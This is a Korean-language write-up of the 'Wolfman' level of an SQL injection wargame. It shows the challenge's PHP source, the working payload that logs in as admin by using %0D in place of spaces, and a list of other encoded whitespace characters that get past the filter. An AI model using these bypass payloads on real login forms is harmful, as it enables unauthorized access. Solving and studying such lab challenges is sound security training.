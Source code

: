 # Level 5 - Wolfman

## 문제

![문제](screenshot/L5_Wolfman_prob.PNG)

## 문제 의도

- php 소스를 읽을 줄 아는가?
- 공백 문자를 사용하지 않고 SQLi를 수행할 수 있는가?

## 코드 분석

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
  /* 공백문자(%20)를 필터링한걸 확인할 수 있다. */
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
  highlight_file(__FILE__);
?>
```

## 문제 풀이

공백을 쓸 수 없는 것 외에는 할 수 있는 게 많았다. 찾아보니 SQL에서 공백을 대신할 만한 문자가 많았는데, 그 중 내가 채용한 건 0x0D로 원래는 carriage return인데 띄어쓰기 대신으로 사용하게 되었다.
원래 **pw=' or 1=1 and id='admin'-- -** 를 사용했다면 공백 대신 안에 %0D를 사용해서
**pw='%0Dor%0D1=1%0Dand%0Did='admin'--%0D-** 를 사용하면 된다.

![solve](screenshot/L5_Wolfman_clear.PNG)

### 그 외에도 쓸수 있는 문자

먹히는건 Italic Bold로 표시했다.

- %20 = Space
- **_%09 = Horizontal Tab_**
- **_%0A = New Line_**
- **_%0B = Vertical Tab_** (페이지 쿼리에는 표현이 안되지만 잘됨)
- **_%0C = New Page_** (얘도 페이지 쿼리에는 표현이 안되지만 잘됨)
- **_%0D = Carriage Return_**
- %A0 = No-Break Space (&nbsp;)

___

## Reference

아스키 코드 테이블 : [AsciiTable.com](http://www.asciitable.com/), [lwp.interglacial.com](http://lwp.interglacial.com/appf_01.htm)

SQL 필터 우회 : [Reiners' Weblog](https://websec.wordpress.com/tag/sql-filter-bypass/)